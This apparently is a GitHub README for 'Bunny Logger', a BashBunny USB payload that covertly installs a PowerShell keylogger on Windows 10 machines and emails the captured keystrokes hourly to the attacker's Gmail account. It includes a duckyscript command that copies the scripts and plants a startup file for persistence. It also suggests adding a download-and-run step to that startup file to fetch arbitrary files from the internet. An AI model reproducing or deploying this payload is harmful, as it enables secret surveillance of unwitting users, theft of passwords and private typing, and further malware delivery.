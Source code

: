 # Bunny Logger
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
__________                           .____                                      
\______   \__ __  ____   ____ ___.__.|    |    ____   ____   ____   ___________ 
 |    |  _/  |  \/    \ /    <   |  ||    |   /  _ \ / ___\ / ___\_/ __ \_  __ \
 |    |   \  |  /   |  \   |  \___  ||    |__(  <_> ) /_/  > /_/  >  ___/|  | \/
 |______  /____/|___|  /___|  / ____||_______ \____/\___  /\___  / \___  >__|   
        \/           \/     \/\/             \/    /_____//_____/      \/         
```

## Overview:
```
BunnyLogger is a BashBunny payload that uses PowerShell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will email the logs every startup and every hour [via SMTP]
    - sends logs hourly, regardless of system time

## Resources:
- [YouTube Video]()
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 7 of *duckyscript.txt*, change 'switch1' to whatever switch you use
3. in line 7 of *duckyscript.txt*, change 'BashBunny' to the name of your BashBunny
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
